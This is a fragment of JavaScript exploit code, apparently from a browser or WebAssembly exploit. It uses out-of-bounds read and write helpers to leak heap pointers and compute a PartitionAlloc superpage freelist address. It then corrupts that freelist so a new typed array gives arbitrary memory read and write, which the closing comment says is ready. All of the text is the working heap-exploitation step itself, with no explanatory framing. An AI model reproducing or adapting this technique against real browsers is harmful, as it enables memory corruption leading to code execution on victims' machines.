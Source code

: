 ```
  junk = [];

  console.log("START");

  while (true) {

    junk.push(new ArrayBuffer(8));

    var p1 = read_oob(16).bswap();

    var p2 = read_oob(24).bswap();

    console.log(p1);

    console.log(p2);

    if (p2.sub(p1).val() == 8)

    {

      console.log("ok");

      console.log(p1.str());

      console.log(p2.str());

      break;

    }

  }

  var b8ptr = read_oob(8).bswap();

  scratch = b8ptr.sub_u32(0x20010);

  scratch_buf = new DataView(wasm2.exports.memory.buffer);

  console.log('scratch: ' + scratch.str());

  var superpage_mask = mku64((1 << 21) - 1);

  superpage = b8ptr.and(superpage_mask.not());

  var partition_page_idx = b8ptr.and(superpage_mask).shr(14).val()

  var freelist_addr = superpage.add_u32(0x1000 + partition_page_idx * 0x20);

  console.log('freelist_addr : ' + freelist_addr.str());

  write_oob(8, freelist_addr.bswap())

  junk.push(new ArrayBuffer(8));

  freelist = new Uint32Array(2);

  freelist.buffer;

  // read() and write() are ready

}


```